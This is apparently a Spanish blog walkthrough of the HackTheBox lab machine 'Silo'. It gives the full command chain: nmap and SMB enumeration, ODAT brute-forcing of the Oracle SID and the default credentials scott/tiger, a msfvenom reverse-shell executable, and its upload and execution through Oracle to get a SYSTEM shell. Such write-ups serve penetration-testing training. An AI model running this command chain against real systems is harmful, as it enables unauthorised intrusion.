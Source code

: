 ```yaml
---
layout: single
title: Máquina Silo - HackTheBox (OSCP Style)
excerpt: "Resolución de la máquina Silo la cual figura en la plataforma con un nivel de dificultad Medium, aunque veremos que es una máquina muy fácil."
date: 2021-09-30
classes: wide
header:
  teaser: /assets/images/silo/portada.png
  teaser_home_page: true
categories:
  - HTB
  - Blog
tags:
  - Blog
  - Writeup
  - Guía
  - Walkthrough
---
```


# Información de la máquina

La máquina figura en Hack The Box como una máquina Windows. Su dificultad es Medium, de 30 puntos. Sin embargo, veremos que es una máquina bastante sencilla en la que la intrusión se hará directamente como NT AUTHORITY\SYSTEM

![0]

# Reconocimiento
Iniciamos con una traza ICMP para detectar el Sistema Operativo que corre en el sistema. Por el TTL deducimos que es una máquina Windows (TTL aprox. de 128).

![1]

Por medio de un escaneo de puertos con nmap, detectamos aquellos que se encuentren activos con un estatus **open** en la máquina víctima:

![2]

Vemos que se encuentran habilitados una cantidad considerable de puertos. Sin embargo, los principales serían el 80 (HTTP), 139 y 445 (SMB), 1521 (Oracle DB) y 5985 (WINRM).

Si realizamos un escaneo más exhaustivo en busca de servicios y versiones específicas de dichos puertos, nos encontramos con una gran cantidad de información:

	nmap -sC -sV -p80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 10.10.10.82 -oN targeted
    
![5]

Llama la atención el servicio de Oracle, ya que no la hemos visto anteriormente en otra máquina, así que podría indicar algo. La demás información del escaneo no revela nada de información que sea relevante. Sin embargo, veremos y enumeraremos los servicios uno por uno.

# Servicio HTTP
Solo basta con realizar un escaneo con **whatweb** para revisar si en el sitio web corre algún servicio de interés, como un CMS o versiones vulnerables.

![3]

Sin embargo, la única información que puede ser de relevancia es la versión del IIS que corre en el sistema, la cual es 8.5; lejos de la versión 10.0, que es la más reciente. Sin embargo, de no encontrar otra vulnerabilidad, regresaremos a esto posteriormente.

# Servicio SMB
Dado que el servicio **SMB** se encuentra habilitado en la máquina, primero tratamos de enumerar los recursos compartidos con **ambmap** a los que podamos tener acceso. Dado que no tenemos credenciales, se hace este escaneo con una null session.

	smbmap -H 10.10.10.82 -u 'null'
    
![4]

Sin embargo, no tenemos posibilidad siquiera de listar los recursos con estas credenciales. Descartamos esta aproximación y pasamos al siguiente servicio.

# Oracle DB
Un servicio que llama la atención es el de la base de datos Oracle, ya que desde este podemos realizar ejecución de comandos en el sistema en caso de contar con ciertos requisitos, los cuales son:

* Un SID válido
* Credenciales válidas

Los pasos para hacer pentesting a un servicio de Oracle DB se pueden encontrar en la siguiente entrada de [HackTricks](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener). Sin embargo, ellos lo realizan por medio de **Metasploit**, de tal forma que nosotros intentaremos seguir los pasos de forma manual (recordemos, todo debe ser estilo OSCP).

Los pasos a seguir son los siguientes:

* Conseguir un SID válido
* Conseguir credenciales válidas
* Ver si tenemos posibilidad de subir archivos
* Crear un exploit con msfvenom para obtener una reverse shell
* Ejecutar el exploit en la máquina y obtener la revere shell

Para realizar este proceso de pentesting, emplearemos la herramienta **ODAT** que se puede encontrar en el siguiente [repositorio de GitHub](https://github.com/quentinhardy/odat). Cabe destacar que para hacerlo funcionar, debemos primero seguir los pasos de instalación que vienen en el apartado **Installation** de su README.

Una vez que esté corriendo correctamente la herramienta, podemos ejecutarla:

	python3 odat.py -s 10.10.10.82
    
![6]

Podemos ver las diferentes opciones de escaneo que la herramienta puede realizar. Podemos ejecutar simplemente la opción **all**, pero para tener control de las salidas y resultados, haremos paso por paso. Primero, necesitamos un SID válido para poder realizar las consultas posteriores. Para ello, empleamos la opción **sidguesser**.

	python3 odat.py sidguesser -s 10.10.10.82
    
![7]

Lo que la herramienta hará, será probar por fuerza bruta SID válidos en el sistema hasta dar con uno válido. Al final, encuentra uno, por lo que podemos detener la herramienta por medio de un CTRL+C.

El SID válido es **XE**.

El siguiente paso será obtener credenciales válidas para realizar la ejecución de comandos dentro del sistema, y esto también se puede hacer por medio de fuerza bruta por medio de un diccionario que la misma herramienta tiene por defecto. Para ello, emplearemos la opción **passwordguesser**. Obsérvese cómo el comando ahora debe incluir la bandera -d de SID.

	python3 odat.py passwordguesser -s 10.10.10.82 -d XE

![8]

El programa logra dar con credenciales válidas: ``scott/tiger``. En este punto, igualmente podemos detener la herramienta. El siguiente paso será intentar subir un exploit a la máquina para su posterior ejecución. Para ello, primero deberemos crear el exploit con **msfvenom**, pero para ello, primero debemos conocer la arquitectura del sistema. Ejecutamos **crackmapexec** para ver la versión del sistema:

![9]

Vemos que la arquitectura del sistema es de 64 bits. Por lo que creamos el exploit con dicha arquitectura en mente:

	msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.22 LPORT=443 -f exe -o reverse.exe
    
![10]

Ya con el exploit creado para entablar una reverse shell, intentamos subirla al sistema. Para ello, debemos usar la opción **utlfile** y la bandera --putFile. Obsérvese como antes debemos declarar las credenciales obtenidas, y posteriormente, la ruta destino, nombre de archivo destino, y ruta local del archivo.

	python3 odat.py utlfile -s 10.10.10.82 -d XE -U 'scott' -P 'tiger' --putFile "/temp" "reverse.exe" "/home/kali/Desktop/HTB/Silo/reverse.exe" --sysdba
    
![11]

En el caso de la ruta destino, puede ser una ruta absoluta (c:\\inetpub\\wwwroot) o una ruta relativa (/temp). Esta última es una ruta característica del servicio Oracle DB, sin embargo, de no poderse colocar en dicha ruta, intentar la primera. Vemos que el resultado es positivo, por lo tanto, solo resta ejecutarlo.

Para ello, emplearemos la opción **externaltable**, la cual cuenta con la bandera --exec.

![12]

Esta bandera solo requiere que le pasemos la ruta donde se encuentra el binario a ejecutar y el nombre de este. En dado caso de que algún comando ejecutado hasta este momento dé error de privilegios insuficientes, debemos agregar la bandera --sysdba.

	python3 odat.py externaltable -s 10.10.10.82 -d XE -U 'scott' -P 'tiger' --exec /temp reverse.exe --sysdba
    
![13]

Para este punto, antes de ejecutar el comando, ya debemos tener un netcat a la escucha para recibir la conexión. Vemos que se ejecuta correctamente y recibimos la reverse shell.

![14]

Lo más curioso, es que recibiremos la shell como el usuario administrador, por lo que escalamos privilegios directamente.

# Flags
Ya como el usuario administrador, solo nos resta obtener las flags de usuario y de root. Como usuario administrador, no tenemos problema ya que podemos acceder a todos los directorios sin problemas. La flag de usuario se encuentra en el directorio del usuario **Phineas**.

![15]

Por último, obtenemos la flag de roor, que se encuentra en el directorio del usuario administrador.

![16]
	
[0]:/assets/images/silo/0.png
[1]:/assets/images/silo/1.png
[2]:/assets/images/silo/2.png
[3]:/assets/images/silo/3.png
[4]:/assets/images/silo/4.png
[5]:/assets/images/silo/5.png
[6]:/assets/images/silo/6.png
[7]:/assets/images/silo/7.png
[8]:/assets/images/silo/8.png
[9]:/assets/images/silo/9.png
[10]:/assets/images/silo/10.png
[11]:/assets/images/silo/11.png
[12]:/assets/images/silo/12.png
[13]:/assets/images/silo/13.png
[14]:/assets/images/silo/14.png
[15]:/assets/images/silo/15.png
[16]:/assets/images/silo/16.png